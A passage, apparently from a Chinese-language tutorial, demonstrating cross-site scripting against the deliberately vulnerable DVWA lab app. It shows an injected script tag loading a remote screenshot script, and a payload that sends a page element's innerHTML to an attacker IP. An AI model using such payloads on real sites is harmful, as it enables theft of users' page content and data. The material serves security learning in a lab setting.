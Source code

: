 现在，我们通过诱骗用户访问以下 URL，将 JavaScript 代码注入易受攻击的页面:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/screenshot.js">
```

一旦加载了 JavaScript 文件，脚本将 base64 格式的数据发送到**saveshot.php**文件，后者将数据写入**test.png**文件。打开**test.png**文件，我们可以看到漏洞页面的截屏。

![the test.png file opened on a vulnerable dvwa page](img/a17efdfdaf52db07e5ca2efd3b2668f5.png)

### **另一种方式**

窃取页面内容的另一种方法是通过使用 **getElementById** 获取 HTML 源代码。下面是一个有效载荷，它获取 *guestbook_comments* 元素的 *innerHTML* ，并将其发送给攻击者。

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.getElementById('guestbook_comments').innerHTML;</script>
```

![a payload getting the innerHTML of the guestbook_comments element](img/8934d90d4804e75b81c304cb5b283b14.png)
